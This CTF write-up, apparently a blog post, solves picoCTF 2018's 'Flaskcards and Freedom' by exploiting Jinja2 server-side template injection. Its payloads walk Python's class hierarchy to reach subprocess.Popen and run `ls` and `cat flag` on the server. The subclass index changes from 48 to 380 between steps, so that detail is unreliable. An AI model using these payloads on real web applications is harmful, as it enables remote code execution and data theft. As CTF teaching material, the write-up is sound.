






+++
title = "picoCTF 2018 - Flaskcards and Freedom"
date = 2018-10-12T21:02:44.420Z
updated = 2018-10-12T22:55:27.216Z
aliases = ["/posts/5bc10bf4f1882e545d7f4309-picoctf-2018-flaskcards-and-freedom"]
[taxonomies]
tags = ['picoctf18', 'web', 'python', 'rce']
categories = ["ctf-writeups"]
+++

# Problem

> "There seem to be a few more files stored on the flash card server but we can't login. Can you?"

# Solution

The site appears to be the same as the previous flaskcard challenges `Flaskcards Skeleton Key` and  `Flaskcards.`

When we create an account, we are presented with the following screen:

We can try server side injection. If we type in `{{1+1}}`, the webpage displays `2`.  Any values in double brackets is being executed on the server. After trying to find hidden variables, such as `config`, `flag`, etc; I decided to look for a remote code execution vulnerability. 

<!-- more -->

We can list all of the loaded classes by calling `__subclasses__` on the base object class. To do this, I used the `mro` method, which lists all of the superclasses, including `object`. Calling this on a string gives easy access to the base object class.

The object class is index `1` when calling `''.__class__.mro()`. So we can access the subclasses of object by injecting `''.__class__.mro()[1].__subclasses__()`. This results in a lot of output.

After cleaning up the output, I found that `<class 'subprocess.Popen'>` was index 48.

From there it is possible to run `ls` with `{{''.__class__.mro()[1].__subclasses__()[48](['ls'], stdout=-1).communicate()}}`. Running with `-1` results in the output being returned as a tuple:

Calling `ls` lists the files in the directory. All that's left is to call `cat flag` with `{{''.__class__.mro()[1].__subclasses__()[380](['cat', 'flag'], stdout=-1).communicate()}}`:

